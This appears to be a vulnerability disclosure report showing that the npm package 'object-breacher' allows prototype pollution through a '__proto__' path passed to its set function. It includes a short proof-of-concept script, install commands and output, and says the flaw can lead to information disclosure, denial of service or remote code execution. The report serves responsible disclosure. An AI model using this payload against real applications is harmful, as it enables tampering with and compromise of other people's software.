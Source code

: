 # Description

`object-breacher` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { set } = require('object-breacher')

console.log(`Before: ${{}.polluted}`)
set({}, '__proto__.polluted', true)
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i object-breacher # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

